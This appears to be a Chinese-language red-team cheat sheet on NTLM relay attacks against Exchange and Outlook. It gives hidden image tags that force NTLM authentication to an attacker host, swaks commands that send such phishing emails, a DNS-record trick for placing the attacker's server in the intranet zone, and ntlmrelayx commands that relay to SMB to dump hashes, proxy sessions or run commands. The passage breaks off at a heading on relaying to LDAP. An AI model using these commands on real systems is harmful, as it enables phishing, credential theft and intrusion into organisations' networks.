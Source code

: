 
---

### Exchange中继

Exchange 的认证也支持 NTLM SSP。我们可以 relay Exchange，从而收发邮件，代理等等。

#### outlook abuse

在使用 outlook 的情况下还可以通过 homepage 或者下发规则达到命令执行的效果。

在 outlook 邮件中插入 HTML,触发 UNC

在邮件中插入如下标签：
```
<img src="\\192.168.60.172\blank">
<img src="http://relayubuntu/blank">
```

在用户通过 Outlook 打开邮件时：

1. UNC 默认会通过 smb 协议发起 NTLM 认证，但是外网钓鱼的话，目标单位的 smb 流量可能无法出网。
2. HTTP 默认不会发起 NTLM 认证，即使服务端对其进行 NTLM 挑战，除非服务端 url 位于服务器的信任网站或内联网列表。Windows 会认为 http://Netbios 形式的 url 处于内联网，域内用户默认有增加 DNS 记录的权限，因此攻击者需要先获取域用户权限并创建 DNS 记录来将恶意服务器"放入"内联网列表。显然，这种方法无法用于外网钓鱼。

```bash
# 发送带 UNC 路径的邮件
swaks --server 192.168.60.116 --ehlo island.com --to zhangsan@island.com --from test@island.com --header "Subject:relay_swaks_test" --body '<img src="\\192.168.60.172\blank" style="display:none">this is a msg' --h-X-Mailer: 'Foxmail 7.2.20.273[cn]' --add-header "Content-Type: text/html"

# 发送带 HTTP 路径的邮件
swaks --server 192.168.60.116 --ehlo island.com --to zhangsan@island.com --from test@island.com --header "Subject:relay_swaks_test" --body '<img src="http://relayubuntu/blank" style="display:none">this is a msg' --h-X-Mailer: 'Foxmail 7.2.20.273[cn]' --add-header "Content-Type: text/html"
# Powermad Invoke-DNSUpdate.ps1
# 创建 DNS 记录
Invoke-DNSUpdate -DNSType A -DNSName relayubuntu -DNSData 192.168.60.172
```

这种 Relay，可以在外网发起 relay，而不需要在内网。

- [Arno0x/NtlmRelayToEWS](https://github.com/Arno0x/NtlmRelayToEWS)
- [quickbreach/ExchangeRelayX](https://github.com/quickbreach/ExchangeRelayX)

**smb/http relay to smb**

中继至 smb 时，如果：

1. 中继的账户是普通域账户，则无法完成中继。受 Remote UAC 限制，除了以下账户外，其他账户无法网络登录 smb
2. 中继的账户是域管账户或本地管理员账户，可以完成中继
```bash
# 不加参数，默认 dump 目标 hash
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support -socks
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support -c "whoami"
```

**http relay to ldap**
